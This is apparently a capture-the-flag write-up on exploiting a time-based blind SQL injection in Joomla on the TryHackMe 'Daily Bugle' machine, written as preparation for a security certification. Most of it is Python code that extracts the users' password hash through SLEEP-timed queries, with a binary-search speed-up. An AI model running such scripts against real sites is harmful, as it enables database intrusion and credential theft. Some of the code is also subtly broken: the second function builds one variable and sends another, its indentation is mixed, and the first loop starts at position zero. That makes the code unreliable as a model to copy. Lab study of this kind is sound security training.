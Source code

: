 During some SQLi research, in  preparation for the OSWE, I came across the TryHackMe machine [Daily Bulge](https://tryhackme.com/room/dailybugle). In here there was a Joomla CMS SQLi vulnerability that I exploited using a Time-Based SQLi.

#### Blind SQLi
In this situation and many other Blind SQLi attacks the goal is to get a boolean response that you can use to exfiltrate data from the database. 

*Error-Based: error response is false, normal response is true*
*Time-Based: sleep(5) is true, no sleep is false*
 
 From here I wrote up a small python script to loop values using boolean based exfiltration logic.

```python
import requests
import time

# build a charset of ascii character values
charset            = list(range(32,127))
password_max_chars = 255
results            = ""


for position in range(password_max_chars):
	# check if the position in question is greater than the length of the results. If so then we must not of received anything for the last position and are finished.
	if position > len(results):
		break

	for char in charset:
		query = "(SELECT SLEEP(5) WHERE substr((SELECT password from #__users LIMIT 1),{},1)=BINARY {} LIMIT 1)".format(position, hex(char))

		# Since we are using a sleep, we can grab time stamps for the duration of the request to compare
		start_time = time.time()
		r = requests.get("http://a.vuln.app", params={"sort": query})
		end_time = time.time()

		# if the server did sleep then append this char to the results and break to the next position loop
		if end_time - start_time > 3:
			results += chr(char)
			break
			
print(results)
```

This works but with 255 possible positions for the password and 94 possible characters this is very slow because it will check every single character until it matches one. If the character match is hex(126) then we made 126 requests to figure that out. 

#### Binary Search

One thing I thought of was to reduce the character size. For instance in the above SQL query we compare the position to the character using `=` but it would be much more efficient to grab the middle character and ask if it's `<` or `>` it. 

Updating the logic with just that until I got a chunk of 5 potential characters to check, exponentially reduced the time of the data exfiltration.

```python 
def reduce_charset(chars, position):  
    reduced_charset = chars  
  
    while len(reduced_charset) > 5:  
        mid_char = reduced_charset[:len(reduced_charset) // 2][-1]  
        params = "(SELECT SLEEP(5) WHERE substr((SELECT password from #__users LIMIT 1),{},1)>BINARY {} LIMIT 1)".format(position, hex(mid_char))  
  
  		start_time = time.time()
		r = requests.get("http://a.vuln.app", params={"sort": query})
		end_time = time.time()

        if end_time - start_time > 3:  
            reduced_charset = reduced_charset[len(reduced_charset) // 2:]  
        else:  
            reduced_charset = reduced_charset[:len(reduced_charset) // 2]  
  
    return reduced_charset
```

In the initial code I could then adjust the character loop `for char in charset:` to `for char in reduce_charset(charset, position):` 

